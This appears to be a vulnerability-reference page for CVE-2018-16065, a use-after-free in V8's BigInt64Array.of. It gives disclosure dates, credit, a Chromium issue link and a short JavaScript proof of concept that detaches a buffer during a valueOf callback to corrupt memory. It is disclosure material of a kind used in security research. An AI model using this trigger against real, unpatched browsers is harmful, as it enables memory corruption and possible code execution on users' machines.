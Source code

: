# CVE-2018-16065

- Report: Jul 2018
- Fix: Jul 2018
- Credit: Brendon Tiszka

## PoC

```javascript
// flags: --allow-natives-syntax --expose-gc

var array = new BigInt64Array(11);

function evil_callback() {
  %ArrayBufferNeuter(array.buffer);
  gc();
  return 71748523475265n - 16n; // rax: 0x41414141414141
}

var evil_object = {valueOf: evil_callback}

var root = BigInt64Array.of.call(
  function() { return array },
  evil_object
)

gc(); // trigger
```

## Reference

- [Issue](https://crbug.com/867776)
